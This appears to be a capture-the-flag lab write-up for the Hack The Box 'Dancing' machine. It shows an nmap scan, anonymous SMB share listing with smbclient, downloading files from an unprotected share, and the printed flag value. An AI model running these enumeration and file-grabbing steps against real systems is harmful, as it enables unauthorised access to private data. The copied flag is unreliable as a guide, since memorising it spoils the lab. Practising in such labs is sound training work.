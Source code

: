 Hack the Box
Starting Pont
Dancing

10.129.150.224

sudo nmap -sV -sC -oA nmap/fawn 10.129.150.224

Starting Nmap 7.93SVN ( https://nmap.org ) at 2023-06-17 18:05 EDT
Nmap scan report for 10.129.150.224
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-06-18T02:06:13
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: 4h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.14 seconds

$ smbclient -L \\\\10.129.150.224                                                                                  1 ⨯
Password for [WORKGROUP\kali]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.150.224 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available


$ smbclient \\\\10.129.150.224\\WorkShares                                                                         1 ⨯
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

		5114111 blocks of size 4096. 1751483 blocks available
smb: \> 

smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 05:08:24 2021
  ..                                  D        0  Mon Mar 29 05:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 07:00:37 2021

		5114111 blocks of size 4096. 1751483 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \Amy.J\> 

smb: \Amy.J\> cd ..
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

		5114111 blocks of size 4096. 1751435 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

		5114111 blocks of size 4096. 1751435 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> 

smb: \James.P\> exit
                                                                                                                         
┌──(kali㉿kali)-[~/…/CTF/HTB/starting_point/dancing]
└─$ exa
flag.txt  nmap  readme.md  worknotes.txt
                                                                                                                         
┌──(kali㉿kali)-[~/…/CTF/HTB/starting_point/dancing]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664                           




